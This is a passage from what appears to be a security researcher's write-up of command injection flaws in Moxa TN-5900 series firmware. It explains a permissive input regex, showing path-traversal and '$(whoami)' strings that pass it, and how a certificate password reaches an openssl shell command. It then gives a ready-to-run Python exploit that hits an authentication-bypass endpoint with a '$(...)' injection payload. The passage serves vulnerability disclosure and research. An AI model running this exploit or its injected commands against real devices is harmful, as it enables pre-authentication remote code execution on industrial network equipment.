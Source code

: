 //// Essentially it boils down to this, if the regex matches, it returns a positive int [1]. Else return -1 [2]. 
//// Regex is: ^[0-9a-zA-Z_@!#$%^&*()\.\/\ \-]+$

->  Meaning the following are totally OK when checked with this regex:
// ../../../../../../etc/passwd
// $(whoami)

-> While these would not:
// `whoami`


To come back to the actual function `web_CERMGMTUpload` we are able to pass this check and continue.

While ignoring other stuff going on within inbetween of [9] and [10] I still didn't want to snip the inbetween code out. But lets continue, at [10] the `snprintf` creates a `openssl` command with the user supplied password, which as discussed can include a command injection payload. Hence leading to Pre-Auth RCE at [11].



## Exploit Code

```python
import requests

## Exploit against:
# moxa-tn-5900-series-firmware-v3.3.rom

URI = "/goform/web_CERMGMTUpload"
URI_AUTH_BYPASS = "/json/web_CERMGMTUpload"


# Change this
CMD_TO_EXEC = "ping -c 1 127.0.0.1"

data = {"mgmtmode" : "2", "cer_name" : "testmustbeuniq", "cer_pw" : f"$({CMD_TO_EXEC})"}

files = {'testfile': b"iguessthisisnotavalidencryptedcert"}

# Change this to the respective system
url = "https://127.0.0.1" + URI_AUTH_BYPASS

r = requests.post(url, files=files, data=data, verify=False)

print("[*] Exploit finished.")
```


### Two Authenticated Second Order Command Injection Vulnerabilities

Both of these vulnerabilities involve two services, which transfer data through a local socket. Simply put, the webserver sends unsanitized input to this second service through a local socket, which then uses this user controllable data to build up a command passed to `system` hence leading to Remote Command Execution.
